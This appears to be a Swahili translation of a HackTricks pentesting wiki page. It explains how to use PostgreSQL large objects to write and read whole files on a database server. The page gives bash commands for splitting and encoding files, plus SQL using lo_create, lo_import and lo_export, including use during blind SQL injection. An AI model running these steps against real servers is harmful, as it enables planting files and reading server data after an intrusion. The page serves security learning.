 <details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi kuwa bingwa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

### Vitu Kubwa vya PostgreSQL

PostgreSQL inatoa muundo unaojulikana kama **vitu vikubwa**, vinavyopatikana kupitia meza ya `pg_largeobject`, iliyoundwa kuhifadhi aina kubwa za data, kama picha au hati za PDF. Njia hii ni bora kuliko kazi ya `COPY TO` kwani inawezesha **kurejesha data kwenye mfumo wa faili**, ikihakikisha nakala kamili ya faili ya awali inabaki.

Kwa **kuhifadhi faili kamili** ndani ya meza hii, kipengee lazima kisasisishwe kwenye meza ya `pg_largeobject` (kikiwa na LOID), kisha data itakatwe katika vipande vya 2KB na kuingizwa kwenye kipengee hiki. Ni muhimu kwamba vipande hivi viwe saizi ya 2KB (isipokuwa kipande cha mwisho kinaweza kuwa tofauti) ili kuhakikisha kazi ya kurejesha inafanya kazi kwa usahihi.

Ili **kugawanya data yako ya binary** katika vipande vya 2KB, amri zifuatazo zinaweza kutekelezwa:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Kwa kuweka kila faili katika muundo wa Base64 au Hex, amri zifuatazo zinaweza kutumika:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Muhimu**: Wakati wa kiotomatiki mchakato huu, hakikisha kutuma vipande vya 2KB vya herufi wazi. Faili zilizohifadhiwa kwa mfumo wa Hex zitahitaji data ya 4KB kwa kila kipande kutokana na kuongezeka kwa ukubwa, wakati faili zilizohifadhiwa kwa mfumo wa Base64 zitafuata fomula `ceil(n / 3) * 4`.

Maudhui ya vitu vikubwa vinaweza kuonekana kwa madhumuni ya kutatua matatizo kwa kutumia:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Kutumia `lo_creat` & Base64

Ili kuhifadhi data ya binary, LOID kwanza inaundwa:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
Katika hali zinazohitaji udhibiti sahihi, kama vile kuchexploit SQL Injection ya Kipofu, `lo_create` inapendelewa kwa kutoa LOID iliyowekwa.

Vipande vya data vinaweza kisha kuingizwa kama ifuatavyo:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Kuhamisha na huenda kufuta kipengee kikubwa baada ya matumizi:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Kutumia `lo_import` & Hex

Kazi ya `lo_import` inaweza kutumika kuunda na kutoa LOID kwa kipengele kikubwa:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Baada ya kuundwa kwa kitu, data inaingizwa kwa kila ukurasa, ikihakikisha kila kipande hakizidi 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Kukamilisha mchakato huo, data inaexportiwa na kifaa kikubwa kinafutwa:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Vizuizi

Imejulikana kuwa **vitu vikubwa vinaweza kuwa na ACLs** (Orodha za Kudhibiti Upatikanaji), ambazo zinaweza kuzuia upatikanaji hata kwa vitu vilivyoundwa na mtumiaji wako. Walakini, vitu vya zamani na ACLs zenye ruhusa zinaweza bado kupatikana kwa ajili ya kuiba maudhui.
